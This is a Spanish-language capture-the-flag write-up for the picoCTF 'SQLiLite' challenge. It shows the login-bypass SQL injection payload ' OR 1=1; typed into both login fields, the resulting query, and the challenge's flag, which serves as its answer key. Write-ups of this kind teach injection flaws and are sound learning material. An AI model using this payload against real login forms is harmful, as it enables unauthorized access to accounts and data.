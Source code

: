 ## Reto: SQLiLite
### Descripción
Can you login to this website?Try to login [here](http://saturn.picoctf.net:49842/)
### Solución
Entramos a la pagina a la cual nos dirige el enlace, ahí la manera mas rápida y fácil de `loggearse` es usando el comando `OR 1=1;` para que lo tome como verdadero, así que lo ponemos en ambas partes, para que no exista problema y nos aparece lo siguiente:
```http
username: ' OR 1=1;
password: ' OR 1=1;
SQL query: SELECT * FROM users WHERE name='' OR 1=1;' AND password='' OR 1=1;'

# Logged in! But can you see the flag,
```
Nos pregunta si podemos ver la bandera, y al inspeccionar el codigo fuente la encontramos facilmente:
```flag
picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}
```

### Notas adicionales
### Referencias

